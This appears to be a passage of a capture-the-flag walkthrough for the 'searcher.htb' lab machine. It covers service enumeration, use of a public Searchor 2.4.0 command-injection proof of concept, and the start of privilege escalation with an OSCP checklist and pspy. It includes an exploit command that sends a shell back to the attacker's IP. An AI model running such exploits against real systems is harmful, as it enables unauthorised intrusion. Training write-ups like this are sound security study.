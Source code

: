 ### Port 22

Version -OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.52

Add the domain to `/etc/hosts` file.

I found the version of the software used at the bottom of the page:

![image.png](image%202.png)

And found this PoC https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/README.md to exploit it.

Running the exploit I was able to get a shell:

```bash
./exploit.sh searcher.htb 10.10.14.12
```

![image.png](image%203.png)

## Privilege Escalation

Checking for other users I don’t see anyone, that means we are gonna do privilege escalation.

- **OSCP Checklist**
    - [x]  Situational awareness
    - [x]  Exposed Confidential
    - [x]  Password Authentication Abuse 
    - [x]  Hunting Sensitive Information
    - [ ]  Sudo
    - [x]  SUID/SGID
    - [x]  Capabilities
    - [x]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [x]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    - [ ]  Check running processes using `pspy`
    

Running `pspy64` I noticed that I can see just my processes:

![image.png](image%204.png)

We can confirm this reading `/etc/fstab` :

![image.png](image%205.png)
